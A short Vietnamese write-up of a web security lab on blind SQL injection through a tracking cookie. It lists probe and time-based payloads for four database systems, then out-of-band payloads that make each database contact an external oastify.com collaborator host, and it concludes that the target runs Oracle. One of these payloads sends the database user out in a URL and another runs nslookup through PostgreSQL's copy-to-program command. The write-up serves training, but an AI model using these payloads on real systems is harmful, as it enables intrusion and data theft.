

# Lab: Blind SQL injection with out-of-band interaction

## 1. Kiểm tra ban đầu

Payload thử:

```text
TrackingId=qen9J8dG8qxfr89Y'     // không thấy có gì đặc biệt
TrackingId=qen9J8dG8qxfr89Y'--   // không thấy có gì đặc biệt
TrackingId=qen9J8dG8qxfr89Y''--  // không thấy có gì đặc biệt
```

## 2. Thử payload time-based theo DBMS

```text
MySQL:      ' AND SLEEP(10)--
MSSQL:      '; WAITFOR DELAY '0:0:10'--
Oracle:     ' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a',10)--
PostgreSQL: '; SELECT pg_sleep(10)--
```

Kết quả: đều không trigger được.

## 3. Thử OOB payload

### Oracle

```Oracle
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://x20ly3hopcydawovk5s91ojrfil990xp.oastify.com/'||(SELECT user FROM dual)||'"> %remote;]>'),'/l') FROM dual--
```

### MySQL

```MySQL
' AND LOAD_FILE('\\\\x20ly3hopcydawovk5s91ojrfil990xp.oastify.com\\a')--
```

### PostgreSQL

```PostgreSQL
'; copy (SELECT '') to program 'nslookup x20ly3hopcydawovk5s91ojrfil990xp.oastify.com'--
```

### MSSQL

```MSSQL
'; EXEC master..xp_dirtree '\\x20ly3hopcydawovk5s91ojrfil990xp.oastify.com\share'--
```

Quan sát: có request đi đến server oastify.

Kết luận: xác định được SQLi dạng OOB, DBMS là Oracle, lab solved.


